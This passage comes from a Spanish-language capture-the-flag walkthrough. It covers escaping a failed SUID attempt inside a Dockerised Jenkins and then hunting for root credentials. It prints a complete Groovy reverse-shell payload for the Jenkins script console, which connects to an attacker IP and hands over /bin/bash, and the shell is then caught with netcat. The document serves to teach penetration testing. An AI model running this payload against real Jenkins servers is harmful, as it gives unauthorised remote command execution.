Si suponemos que el servicio Jenkins está siendo ejecutado por el usuario root, podemos suponer también que solo necesitamos convertir en SUID a la bash para elevar privilegios.

![40]

Sin embargo, al realizar esto, veremos que no hay ningún cambio. Esto se da debido a un malentendido de nuestra ubicación. Recordemos que estamos dentro de Jenkins, y este está corriendo dentro de un docker en el servidor, por lo que cualquier cambio que queramos hacer solo se reflejará en el docker, no en el sistema anfitrión.

![41]

Por lo tanto, deberemos llevar a cabo otro método que nos permita obtener una reverse shell. Para ello, podemos incluir el siguiente código en la consola:

    String host=”10.10.119.193”;
    int port=443;
    String cmd=”/bin/bash”;
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Este código se divide en cuatro apartados:
- El host al cual devolverá la reverse shell (es decir, nuestra IP de atacante).
- El puerto que estará a la escucha (nuestro también).
- La shell que regresará el comando (en el caso de Windows, será la cmd.exe; en Linux, la bash).
- El comando que entabla el socket para obtener la reverse shell.

Una explicación más detallada sobre este procedimiento puede ser consultada en [este blog](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6).

![42]

Al momento de correrlo, y estar en escucha con netcat, veremos que logramos obtener una shell dentro del docker de Jenkins.

![43]

# Enumerando el docker y escalada a root
Dado que estamos dentro de un docker, no nos queda más que intentar enumerarlo con la esperanza de encontrar una contraseña o vector de ataque que nos permita finalmente escalar a root en el servidor anfitrión. Por fortuna, nuevamente hay un archivo dentro del directorio **/opt** llamado **note.txt**.

![44]

Como podemos observar, este archivo contiene las credenciales del usuario root. Nuevamente, en este punto olvidé dónde me encontraba y quise cambiar de usuario dentro del docker, sin éxito evidentemente.

![45]
